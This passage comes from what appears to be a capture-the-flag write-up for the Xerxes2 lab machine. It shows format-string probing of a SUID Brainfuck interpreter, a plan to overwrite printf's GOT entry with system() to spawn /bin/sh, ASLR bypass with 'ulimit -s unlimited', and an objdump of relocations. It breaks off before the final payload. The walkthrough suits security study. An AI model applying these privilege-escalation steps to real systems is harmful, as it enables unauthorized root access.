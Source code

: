 
Yup, it's Brainfuck. Shit.

![](http://files.abovetopsecret.com/files/img/gm5273ef16.gif)

However, it is owned by the polito user, and has SUID set.

The source code for the newly added # command indicates that it will be susceptible to a formatstring vulnerability - you can read about my forays in formatstr in my Hell writeup, but this one took a LOT longer. After I prodded around for a bit, I decided that I would overwrite the printf() pointer in the global offset table with the memory address of system() by calling # with a formatstring buffer, then call the newly redirected # command with a buffer of /bin/sh. This should technically run /bin/sh for me.

So, lets start basic. Here's my process of trying to find things in the stack.


``` bash

delacroix@xerxes2:~$ echo 'AAAA%17$x' | /opt/bf ',>,>,>,>,>,>,>,>,#'
AAAA24373125
delacroix@xerxes2:~$ echo 'AAA%17$xBBBB.%18$x....%19$x...' | /opt/bf ',>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,#'
AAA78243731BBBBB.42424242....31252e42
delacroix@xerxes2:~$ echo 'AAAA%16$x' | /opt/bf ',>,>,>,>,>,>,>,>,#'
AAAA41414141
```


OK, so I can put things into the buffer and find them in the stack. However, there's a gotcha - ASLR is enabled on this box - we need to circumvent that. Could I write an application that has ASLR disabled, and run that, then use the system location from that and call it ? Probably... what about gdb, I know that [disables ASLR](http://www.outflux.net/blog/archives/2010/07/03/gdb-turns-off-aslr/), but it also disables SUID, so that's out. Google to the rescue ! The [following site](http://security.cs.pub.ro/hexcellents/wiki/kb/exploiting/home) helpfully tells me that ulimit -s unlimited disables ASLR on 32bit systems, so that's my golden ticket.

So, with ASLR temporarily disabled, I can find the location for the printf got pointer using objdump.


``` bash

delacroix@xerxes2:~$ ulimit -s unlimited
delacroix@xerxes2:~$ objdump -R /opt/bf

/opt/bf:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049a38 R_386_GLOB_DAT    __gmon_start__
08049a48 R_386_JUMP_SLOT   printf
08049a4c R_386_JUMP_SLOT   getchar
08049a50 R_386_JUMP_SLOT   __gmon_start__
08049a54 R_386_JUMP_SLOT   exit
08049a58 R_386_JUMP_SLOT   __libc_start_main
08049a5c R_386_JUMP_SLOT   memset
08049a60 R_386_JUMP_SLOT   putchar
```
